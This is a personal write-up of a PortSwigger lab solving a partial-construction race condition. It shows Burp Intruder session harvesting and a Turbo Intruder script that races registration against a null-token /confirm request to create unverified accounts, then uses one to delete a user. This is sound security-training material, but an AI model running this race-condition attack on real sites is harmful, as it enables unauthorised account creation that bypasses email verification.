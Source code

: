 # Portswigger Lab: Race Conditions Partial Construction - My Solution

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the presence of a phpsessionid cookie.

Both the research paper and the academy article mention that the
standard PHP session library forces sequential requests within a given
session, masking race condition vulnerabilities. So I decided that my first
step would be to create a number of valid sessions, and gather the *phpsessionid* and
corresponding anti-csrf tokens.

My first attempt to generate sessions was with Burp macros, but after a few
hours of little or no progress I decided that I'd learn about macros later,
and would resort to pre-creating sessions in the Intruder. My reasoning is
that these sessions would be valid for some time, possibly for the lifetime
of the lab instance. 

I did worry a bit that a registration event might become tied to a given
session, but thankfully that turned out not to be the case.

Here's the request I used in Intruder:

```
GET /register HTTP/2
Host: <host>.web-security-academy.net
X-Count: §xxx§

```

![A simple GET request sent to intruder, and minimised, with an extra header for the dummy payload](resources/intruder_positions.png)

I decided to use sniper mode, with a dummy payload placed in a user-defined
header. In this case `X-Count`. 100 requests turned out to be overkill, but
I'll address that later.

![The payload is just a count](resources/intruder_payloads.png)

All that's left is to set up the extraction of server-provided data, the
phpsessionid and its associated anti-CSRF token, which are easily done in
the extraction tool in the Intruder settings section.

![Extract the phpsessionid from all responses](resources/intruder_extract_phpsessionid.png)

![Extract the anti-CSRF token from all responses](resources/intruder_extract_csrf.png)


The attack runs smoothly, and produces a results table which can be copied
and pasted into a file. Again these sessions seem to last for the lifetime
of the lab container instance.

![The results from Intruder](resources/intruder_results.png)

Here's an example of the Intruder attack output as text. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Once I had sessions I moved on constructing the actual turbo intruder
attack, and for an hour or so I got it completely wrong. I started with a
strategy of attacking the password, using a login request, reasoning that
there might be a short window in which the account is available and
unlocked. 

That didn't work, of course, but it did lead to a key observation. All POST
endpoints in the lab accept *extra* POST parameters without complaint. This
means that it's possible to use a single request for all endpoints, with
the path as a parameter.

Let's compare a valid registration request:
```
POST /register HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

With a valid login request:
```
POST /login HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

The login endpoint simply ignores the extra *email* parameter, which means
that the path can be parametized in Turbo-Intruder:

```
POST /%s HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=%s
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=%s&username=%s&email=%s%40ginandjuice.shop&password=peter
```

Later when I got frustrated that this wasn't working I went back and found
the oddly named /resources/static/users.js, and pretty quickly constructed
a GET request to /confirm. From there all that was left was to validate
that the /confirm POST endpoint would accept extra params. It does:

```
POST /confirm?token=foo HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=<something>
Content-Type: application/x-www-form-urlencoded
Content-Legnth: 40

csrf=<csrf_token>&username=wiener&email=wiener%40ginandjuice.shop&password=peter
```

That means that just as with the failed attempt on the /login endpoint it's
possible to bounce back and forth between registration and confirmation.

So that's exactly what my Turbo-Intruder settings script does. For each
registration it also queues a confirmation POST in the hope that one or
more of them hit the tiny window during which confirmation can be done
a null token. The server of course processes the requests in whatever order
it chooses. So it's all luck from here:

Turbo-Intruder configuration (also available as ./partial_construction_race_condition.py).

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

However it turns out that 100 registrations are complete overkill.
Statistically it looks like just under one quarter of the confirmation
requests hit the window, producing about two dozen valid accounts:

![Turbo intruder setup](resources/turbo_intruder_setup.png)

![Turbo intruder results](resources/turbo_intruder_success.png)


All that's left is to log in with one of them and delete *Carlos*:

![](resources/success.png)


## Lessons learned

I really should have noticed users.js earlier. Having done so would have
saved me at least an hour. I can generalize this into a lesson to invest
more time into the reconaissance phase of an attack.

## Further research

Given the importance of operational security it could be useful to optimise
this attack to create fewer dummy accounts, and thus less noise. So the
next step is to find the smallest number of sessions from sessions.txt
which result in at least one valid account being created.

This attack bears superficial similarity to early quantum physics
experiments including the slit experiment and Lise Meitner's discovery of
Nuclear Fission. I wonder if the sample of sucessful POSTs to /confirm
might follow a wave function, and what relationship that function might
have to Bohr's field strength equations.

Obviously a web server is not a quantum system, however, patterns from
physics and maths have a way of showing up in other domains, and while
there might be nothing of interest to find here, there might also be some
hidden poetry.

